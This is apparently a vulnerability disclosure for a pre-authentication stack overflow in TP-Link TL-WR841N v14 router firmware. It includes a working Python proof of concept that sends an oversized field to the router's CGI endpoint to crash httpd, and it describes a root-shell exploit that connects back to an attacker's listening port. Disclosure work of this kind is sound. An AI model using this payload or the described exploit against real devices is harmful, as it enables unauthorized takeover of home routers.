

# TL-WR841Nv14_US_0.9.1_4.18 has an pre-auth stack overflow vulnerability

## Overview

- **Type**: Buffer overflow
- **Vendor**: TP-LINK ([https://www.tp-link.com](https://www.tp-link.com/))
- **Products**: WiFi Router, such as TL-WR841Nv14_US_0.9.1_4.18

## Description

### 1.Product Information:

TP-link WR841N wireless router, the latest version of simulation overview：


Figure 2 Update date of the latest version of the firmware

The latest firmware update to 2021-04-09

In the library(libcmm.so) function dm_fillObjByStr(), directly call strncpy to copy the input content to the local variable v26. If the copy length and copy content are controllable, there is a stack overflow vulnerability at this location.


### 2.2 Vulnerability effect

This vulnerability can affect the latest version of **TP-Link WR841 device (2021-04-09)**

Using the provided POC can attack and cause the http service to crash, indicating that there is indeed a stack overflow vulnerability, and the httpd program does not open any protection mechanism, as shown in the figure below, so the privilege escalation is simple to use. You can use Padding to hijack the EIP first, and use ROP to execute the privilege escalation code That's it.



Figure 5 Attacking the SNMP service causes the process to restart

### 2.2 Vulnerability reproduction steps

In order to reproduce the vulnerability, you can follow the following steps:

1. Use FAT simulation firmware TL-WR841Nv14_US_0.9.1_4.18_up_boot[210203-rel37242].bin

2. Use the following POC attack to attack

```python
import requests
headers = {
	"Host": "192.168.0.1",
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
	"Accept": "*/*",
	"Accept-Language": "en-US,en;q=0.5",
	"Accept-Encoding": "gzip, deflate",
	"Content-Type": "text/plain",
	"Content-Length": "78",
	"Origin": "http://192.168.0.1",
	"Connection": "close",
	"Referer": "http://192.168.0.1/"
}

payload = "a" * 2048
formdata = "[/cgi/auth#0,0,0,0,0,0#0,0,0,0,0,0]0,3\r\nname={}\r\noldPwd=admin\r\npwd=test\r\n".format(payload)

url = "http://192.168.0.1/cgi?8"

response = requests.post(url, data=formdata, headers=headers)
print response.text
```


Figure 6 POC attack effect

### 1.3Exploit effect

In order to reproduce the exploit, you can follow the following steps:

1. Use FAT simulation firmware TL-WR841Nv14_US_0.9.1_4.18_up_boot[210203-rel37242].bin

2. Finally write exp can reach getshell


Figure 7 EXP attack effect

This exp uses multi-threaded attacks to achieve a very stable effect of obtaining a root shell, and does not require any password to log in to access the router, which is an unauthorized RCE vulnerability. (As shown in the figure below, there is no web login)


Figure 8 No login required before the attack

In order to reproduce the exploit, you can follow the following steps:
1. Use fat simulation firmware tl-wr841nv14_ US_ 0.9.1_ 4.18_ up_ boot[210203-rel37242]. bin
2. Attack with the provided exp attack: python exp_wr841.py 192.168.0.2 11451 (Python attack script attacker IP listening port)


Figure 10 exp attack effect

The exp uses multithreading attack, which can achieve a very stable effect of obtaining the root shell, and does not need any password to log in and access the router. It is an unauthorized rce vulnerability. (as shown in the figure below, there is no web login)


Figure 11 no login required before attack